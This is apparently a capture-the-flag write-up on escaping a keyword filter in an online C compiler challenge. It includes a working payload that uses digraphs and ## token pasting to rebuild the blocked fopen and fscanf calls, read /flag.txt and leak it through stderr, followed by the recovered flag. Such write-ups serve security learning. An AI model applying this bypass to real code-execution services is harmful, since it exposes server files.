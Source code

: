 ## Investigation
Inspecting the source code of the page hints us in an html comment that the flag can be found in a text file on the servers root directory. A quick look at the linked javascript also reveals that as soon as an error response is received from the server, we are presented the error details. This is our way to leak information from the server. And indeed, when writing to _stderr_ and exiting the program with an error, we are presented with the error output in the alert.

My idea was to just open the _/flag.txt_, read its content, print it to _stderr_ and then exit the main function with an error to report the information back. Unfortunately, some source code filter is applied and I got an answer that the _dangerous keyword 'fopen' has been detected_ and my code wouldn't run. After trying a few other approaches I quickly realized most of the interesting functions found in _stdio.h_ were prohibited.

I then tried to close the main function early with a ```}``` and ```#include "/flag.txt"``` afterwards, provoking a compilation error showing me the contents of the file in the error output. But no luck, ```include``` as well as the ```#```-symbol were considered dangerous, too.

## Solution
My final solution was to bypass the source code filter by inserting the dangerous functions at compile time. The key here was to use macros and let the pre-processor concatenate the dangerous function names from two strings with the ```##```-directive to not trigger the source code filter. To counter the prohibition of the ```#```-symbol itself I used [digraphs](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs#C).

##### payload:
```C
    flag();
    return 1;
}

%:define OPEN(path, mode) fop%:%:en(path, mode)
%:define SCAN(f, fmt, buf) fsca%:%:nf(f, fmt, buf)

int flag() {
    char buf[128];
    FILE *f;
    f = OPEN("/flag.txt", "r");
    SCAN(f, "%s", buf);
    fprintf(stderr, buf);
```

##### flag:
```
SCTF{take-care-when-execute-unknown-code}
```
